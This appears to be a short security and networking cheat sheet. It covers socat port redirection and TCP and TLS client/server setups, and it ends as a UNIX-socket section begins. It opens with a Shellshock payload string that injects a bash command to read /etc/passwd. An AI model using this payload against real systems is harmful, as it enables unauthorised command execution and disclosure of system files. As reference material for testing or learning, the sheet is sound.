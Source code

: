 ## shellshock

`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" `

## socat

#### Redirect
```bash
socat TCP-LISTEN:80,fork TCP:202.54.1.5:80
socat TCP4-LISTEN:443,fork TCP4:xx.xx.xx.xx:443

```
#### Server

```bash
socat TCP-LISTEN:8800\
,reuseaddr\
,pf=ip4\
,fork -
```

#### Client

```bash
socat TCP:localhost:8800 -
```

Create a client/server **TCP** connection over **TLS/SSL**. Refer to [Generating SSL Certificates](https://blog.travismclarke.com/post/generating-ssl-certs/) for assistance creating the client/server certificates.

#### Server

```bash
socat OPENSSL-LISTEN:4443\
,reuseaddr\
,pf=ip4\
,fork\
,cert=$HOME/tmp/server.pem\
,cafile=$HOME/tmp/client.pem -
```

#### Client

```bash
socat OPENSSL:localhost:4443\
,verify=0\
,cert=$HOME/tmp/client.pem\
,cafile=$HOME/tmp/server.pem -
```

### UNIX domain socket communication

Create a UNIX domain socket for IPC (inter-process communication) with a **single (bi-directional)** endpoint.
